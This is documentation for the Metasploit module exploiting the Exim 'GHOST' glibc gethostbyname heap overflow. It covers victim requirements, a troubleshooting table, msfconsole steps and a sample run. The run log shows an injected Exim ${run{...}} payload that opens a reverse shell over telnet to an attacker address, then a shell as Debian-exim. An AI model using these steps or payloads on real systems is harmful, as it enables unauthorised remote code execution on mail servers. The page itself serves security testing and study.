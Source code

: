 ## Vulnerable Application

The Exim GHOST buffer overflow is a vulnerability found by researchers from Qualys.
On March 17th 2015, Qualys released an exploit module demonstrating the exploitability
of this flaw, which is now `exim_gethostbyname_bof` in Metasploit Framework.

When Qualys released the exploit, it included a lot of technical details for debugging
and usage purposes. We decided to put all that here in a more readable format.

### What is "GHOST"

This is a heap based buffer overflow found in GNU C Library's **g**et**host**byname
functions since glibc-2.2 (November 10, 2000), which is part of the Linux operating
system, such as: Debian, Red Hat, CentOS, and Ubuntu.

### Exploitable Requirements

**On the server-side (victim):**

* glibc-2.6 - glibc-2.17: The exploit depends on the newer versions' `fd_nextsize`
(a member of the malloc_chunk structure) to remotely obtain the address of Exim's
`smtp_cmd_buffer` in the heap.
* Exim server. The first exploitable version is Exim-4.77, maybe older. The exploit
depends on the newer versions' 16-KB smtp_cmd_buffer to reliably set up the heap as described in the advisory.
* The Exim server also must enable helo_try_verify_hosts or `helo_verify_hosts`
in the `/etc/exim4/exim4.conf.template` file. The `verify = helo` ACL might be exploitable
too, but the attack vector isn't as reliable, therefore not supported by the module.

For testing purposes, if you need to find a vulnerable system, you can try Debian 7
(it should come with an exploitable Exim server):
[debian-7.7.0-i386-DVD-1.iso](https://archive.org/download/Debian-7.7.0/debian-7.7.0-i386-DVD-1.iso)

**On the attacker's side:**

* The attacker's IPv4 address must have both forward and reverse DNS entries that match each other
(Forward-Confirmed reverse DNS).

### Troubleshooting

If the `exim_gethostbyname_bof.rb` module has failed on you:

| Failure  | Explanation |
| -------- | ----------- |
| bad `SENDER_HOST_ADDRESS` (nil) | The `SENDER_HOST_ADDRESS` datastore option was not specified |
| bad `SENDER_HOST_ADDRESS` (not in IPv4 dotted-decimal notation) | The `SENDER_HOST_ADDRESS` datastore option was specified, but not in IPv4 dotted-decimal notation |
| bad `SENDER_HOST_ADDRESS` (helo_verify_hosts) | The `SENDER_HOST_ADDRESS` datastore option does not match the IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim). |
| bad `SENDER_HOST_ADDRESS` (no FCrDNS) | the IPv4 address of the SMTP client (Metasploit) has no Forward-Confirmed reverse DNS. |
| not vuln? old glibc? (no leaked_arch) | the remote Exim server is either not vulnerable, or not exploitable (glibc versions older than glibc-2.6 have no fd_nextsize member in their malloc_chunk structure). |
| NUL, CR, LF in addr? (no leaked_addr) | Exim's heap address contains bad characters (NUL, CR, LF) and was therefore mangled during the information leak; this exploit is able to reconstruct most of these addresses, but not all (worst-case probability is ~1/85, but could be further improved). |
| Brute-force SUCCESS followed by a nil reply, but no shell | the remote Unix command was executed, but spawned a bind-shell or a reverse-shell that failed to connect (maybe because of a firewall, or a NAT, etc). |
| Brute-force SUCCESS followed by a non-nil reply, and no shell | The remote Unix command was executed, but failed to spawn the shell (maybe because the setsid command doesn't exist, or awk isn't gawk, or netcat doesn't support the -6 or -e option, or telnet doesn't support the -z option, etc). |

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/exim_gethostbyname_bof```
  4. Do: ```set rhosts [ip]```
  4. Do: ```set SENDER_HOST_ADDRESS [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

### SENDER_HOST_ADDRESS

The IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim)

## Scenarios

### Debian 7.7

When everything is dialed in correctly, a successful attack should look like the following:

```
msf exploit(exim_gethostbyname_bof) > run

[*] Started reverse double handler
[*] Trying information leak...
[!] {:heap_shift=>736}
[!] {:write_offset=>128, :error=>"503 sender not yet given"}
[!] {:write_offset=>136, :error=>"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"}
[!] {:error=>["\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given", "", "503 \x89\x10", "177", "177\\177\\177", "vJN\\177\\177\\177\\177"]}
[!] {:leaked_arch=>"x86"}
[!] {:count=>{"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"=>8, "hF\xFE\xB7hF\xFE\xB7er not yet given"=>2}}
[+] Successfully leaked_arch: x86
[+] Successfully leaked_addr: b7fda760
[*] Trying code execution...
[!] ${run{/usr/bin/env setsid /bin/sh -c "sh -c '(sleep 4011|telnet 192.168.1.64 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.64 4444 >/dev/null 2>&1 &)'"}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>21}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>25}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>20}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>8}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>6}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>12}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>19}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>23}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>18}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>14}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>3}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>28}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd02a1", :offset=>26}
[!] {:reply=>{:code=>"550", :lines=>["550 sikVtqGxFOjCBOWTbDupmIuJRmLmShFNqqUYRRPUolyxPmmgLCenEzConuVGWafjgycyRfXulGNwmAOvkqZkGobMyUIMPojZsaziCjVVyvabOrcieEWrLZSgnCCXHeXjIzGGfUALAIubgBEmsKsSWSGa\r\n"]}}
[+] Brute-force SUCCESS
[+] Please wait for reply...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qaNpBmRBEus9XoVZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "qaNpBmRBEus9XoVZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.1.64:4444 -> 192.168.1.166:58859) at 2015-03-19 03:36:52 -0500
[!] {:reply=>nil}

id
uid=104(Debian-exim) gid=112(Debian-exim) groups=112(Debian-exim)
```
